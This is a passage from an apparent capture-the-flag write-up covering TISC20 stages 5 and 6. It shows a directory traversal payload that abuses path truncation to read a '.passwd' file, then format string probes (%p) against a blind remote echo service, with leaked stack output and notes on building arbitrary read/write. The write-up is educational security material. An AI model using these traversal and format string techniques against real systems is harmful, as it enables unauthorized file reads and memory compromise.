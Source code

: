 ```c
_snprintf(s, 255LL, path, v9); // s is the resulting filepath being read
                               // path = "/home/bbs/threads/%s.thr"
                               // v9 is user controlled data up to 255 bytes
```

Thus we could write a very long directory traversal payload to truncate the `.thr` from the resulting path. The final payload I used was
```
..///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////.passwd
```
Which yields the flag
```
TISC20{m4ngl3d_b4ngl3d_wr4ngl3d}

Press enter to close thread...
```


# STAGE 6A: Blind Boss Battle && STAGE 6B: You are the boss
This challenge presented a remote service with no binary. Seems we have to do some sort of blind pwning.
```
Welcome to Anoroc Riga Server

  Key-Value Storage Service

==============================

Number of users pwned today: 5908
Function Not Yet Implemented
```
Typing random input reveals it's an echo service.
```
aaosidfjiosafj
aaosidfjiosafj
```
When binary application echo out user-provided input it's common to check for format string vulnerabilities, so I used the simple test payload
```
%p
0x7f60f5e73a03
```
Aha! It is vulnerable to a format string vulnerability. I then sent the following payload to identify my user-controlled buffer hopefully in stack.
```
AAAABBBB.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
AAAABBBB.0x7f8ea2940a03.(nil).0x7f8ea2940980.0x5647b7e9d0a0.(nil).0x7ffcea9d97d0.0x5647b7e9a2e0.(nil).0x7f8ea277c0b3.0x7f8ea2979620.0x7ffcea9d97d8.0x100000000.0x5647b7e9a100.0x5647b7e9a2e0.0x23f94e9d138646bf.0x5647b7e9a1f0.0x7ffcea9d97d0.(nil).(nil).0xdc009ba63e6646bf.0xdce40a72934846bf.(nil).(nil).(nil).0x1.0x7ffcea9d97d8.0x7ffcea9d97e8.0x7f8ea297b190.(nil).(nil).0x5647b7e9a1f0.0x7ffcea9d97d0.(nil).(nil).0x5647b7e9a21e.0x7ffcea9d97c8.0x1c.0x1.0x7ffcea9daf5c.(nil).0x7ffcea9daf61.0x7ffcea9dafa3.
```
GG. I couldn't see any indication that my "AAAABBBB" payload was showing up in the leak of the stack, which probably means my controlled buffer lies in the heap or other writable memory not in the stack. This was bad because I need a controlled pointer in stack in order to effectively turn a format string vulnerability into an arbitrary read/write primitive to dump the binary. Fortunately, there is a solution. The solution lies in the idea that due to the nature of the `System V x86-64 ABI` stack and calling convention commonly used, there are saved base pointers lying in stack, which are pointers to higher stack addresses (down the stack). Looking at an example execution of `/bin/ls`
```
gef➤  deref $sp
      0x00007fffffffea80│+0x0000: 0x0000000000000078 ("x"?)    ← $rsp
```